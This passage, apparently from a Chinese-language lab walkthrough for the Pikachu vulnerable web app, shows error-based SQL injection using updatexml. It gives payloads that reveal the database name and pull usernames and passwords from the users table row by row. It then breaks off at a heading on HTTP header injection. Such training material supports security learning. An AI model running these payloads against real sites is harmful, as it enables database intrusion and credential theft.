 

输入

```plain
id=83+or+updatexml(1,(concat(0x7e,database(),0x7e)),1)
```



爆出当前数据库

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882536266-0b89993d-272c-452b-b802-d3272f4ae8a8.png)



SQL注入详情可以看sqli-labs系类，这里不进行详细叙述，直接爆账号和密码了。

```plain
id=83+or+updatexml(1,(concat(0x7e,(select+concat_ws('-',username,password)+from+pikachu.users+limit+0,1),0x7e)),1)
```



这里的输出不完整是因为报错注入对输出的字符数有限制

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882543332-b832f3e1-4f8e-48d1-8b0f-09f2b22cd0d7.png)



可以输入

```plain
id=83+or+updatexml(1,(concat(0x7e,(select+username+from+pikachu.users+limit+0,1),0x7e)),1)id=83+or+updatexml(1,(concat(0x7e,(select password from pikachu.users limit 0,1),0x7e)),1)
```



通过修改limit的参数来控制。



# http header注入

## 查看关键代码
